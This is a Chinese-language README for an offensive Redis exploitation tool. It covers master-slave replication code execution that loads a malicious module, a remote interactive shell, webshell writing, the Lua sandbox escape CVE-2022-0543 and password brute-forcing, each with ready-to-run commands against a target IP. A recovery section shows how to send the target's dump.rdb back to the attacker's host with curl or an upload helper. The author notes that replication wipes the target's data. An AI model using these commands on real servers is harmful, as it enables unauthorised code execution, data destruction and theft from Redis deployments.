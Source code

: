 ## Redis 漏洞利用工具

帮助：`-h`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

Usage of main.exe:
  -brute
        爆破 Redis 密码
  -c string
        执行命令 (default "whoami")
  -cli
        执行 Redis 命令
  -console
        使用交互式 shell
  -down
        开启 Http Sever
  -exec
        主从复制-命令执行
  -lfile string
        需要上传的文件名
  -lhost string
        本地 IP
  -lport string
        本地端口 (default "21000")
  -lua
        Lua沙盒绕过命令执行 CVE-2022-0543
  -p string
        设置 Http Sever 端口 (default "9001")
  -pwd string
        设置密码
  -pwdf string
        设置密码字典
  -rfile string
        保存在目标的文件名
  -rhost string
        目标 IP
  -rpath string
        保存在目标的目录 (default ".")
  -rport string
        目标端口 (default "6379")
  -shell
        备份写 Webshell
  -slaveof
        关闭主从复制
  -so string
        设置 exp.dll | exp.so (default "exp.dll")
  -upload
        主从复制-文件上传
```

```
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

设置 HttpServer 接收上传的内容:
RedisExp.exe -down
```



### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

**解决：**

1、查看 Redis 信息，查看数据是否保存在 dump.rdb

![](images/1.png)

2、主从复制执行命令：此时数据会被清空

![](images/2.png)

3、下载 dump.rdb 文件回本地，然后再把 dump.rdb 主从复制回去，数据就恢复了。

如果文件不大，可以使用 base64 把文件给编码，然后复制回来给本地解码。

```
Windows：

certutil -encode dump.rdb 1.txt
type 1.txt
```

```
Linux:

base64 dump.rdb
```

![](images/3.png)

如果文件过大，可以通过把 dump.rdb 上传到本地，所以我设置了 httpServer 来接收数据。

Linux 可以使用 curl ，Windows 没有 curl 所以需要自己上传程序来把内容传回来，所以 upload.go 就是用来上传文件回来的

```
Windows:

upload.exe -u 192.168.211.1:9001 -f dump.rdb
```

```
Linux:

curl -F "file=@dump.rdb" http://192.168.211.1:9001
```

![](images/4.png)

![](images/5.png)

![](images/6.png)

4、使用 **主从复制文件上传** 的方式上传回去来恢复数据

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/7.png)

5、上传 dump.rdb 会卡住，所以需要**主动关闭主从复制**

```
RedisExp.exe -rhost 192.168.211.131 -slaveof
```

![](images/8.png)

![](images/8-2.png)

6、**最好本地搭建对应的环境先测试**



### 主从复制漏洞

命令执行：

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````

![](images/2.png)

文件上传：

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/7.png)



### 备份写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```

![](images/9.png)

### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![](images/10.png)


### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```

![](images/11.png)


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile

 

